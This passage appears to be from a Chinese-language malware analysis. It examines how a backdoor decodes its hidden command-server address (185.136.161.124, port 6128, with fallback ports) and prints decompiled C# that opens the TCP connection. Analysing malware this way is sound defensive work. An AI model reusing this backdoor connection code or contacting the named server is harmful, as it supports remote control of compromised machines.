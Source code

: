 ## 中繼站

### 基本資訊
在前面提到的後門功能中有一個是專門處理網路連線的(`dlrarhsivaIPSConfig`)，這其實蠻有趣的，他不直接寫出連線的IP，反而是做了簡單的ascii轉換後才進行連線，如下所示
1. MLREDM/dlrarhsivaIPSConfig()
    這一段主要是進行連線，但是在連線前會進行IP parsing和fetching port的動作(如下一段所示)
    ```csharp!
    // dlrarhsiva.MLREDM
    // Token: 0x0600001A RID: 26 RVA: 0x0000365C File Offset: 0x0000185C
    private bool dlrarhsivaIPSConfig()
    {
        bool result;
        try
        {
            DLAONIF.dlrarhsivadefaultP = this.dlrarhsivaCMD.dlrarhsivaserverIPD();
            this.dlrarhsivatcpsck = new TcpClient();
            this.dlrarhsivatcpsck.Connect(DLAONIF.dlrarhsivadefaultP, DLAONIF.dlrarhsivaport);
            result = true;
        }
        catch
        {
            this.dlrarhsivaports_switch();
            result = false;
        }
        return result;
    }
    ```
2. OLRDMR/dlrarhsivaserverIPD()
    這一段就是把DLAONIF.dlrarhsivavpsips轉換成UTF-8而已，原本是ascii的integer形式，轉換後就變成一般的ascii string，也就是==185.136.161.124==
    ```csharp!
    using System;
    using System.Diagnostics;
    using System.IO;
    using System.Net.Sockets;
    using System.Text;

    namespace dlrarhsiva
    {
        // Token: 0x02000009 RID: 9
        internal class OLRDMR
        {
            ...
            public string dlrarhsivaserverIPD()
            {
                return Encoding.UTF8.GetString(DLAONIF.dlrarhsivavpsips, 0, DLAONIF.dlrarhsivavpsips.Length);
            }
            ...
            // Token: 0x0400003A RID: 58
            public MLREDM server;
        }
    }
    ```
3. DLAONIF/
    也可以自行轉換下面的IP，另外他有好幾個Port，詳細的code可以參考MLREDM/dlrarhsivaports_switch()這個method，在default port 6128連不上去的時候可以自行切換預先設定好的port number
    ```csharp!
    using System;
    using System.IO;
    using System.Windows.Forms;
    using Microsoft.Win32;
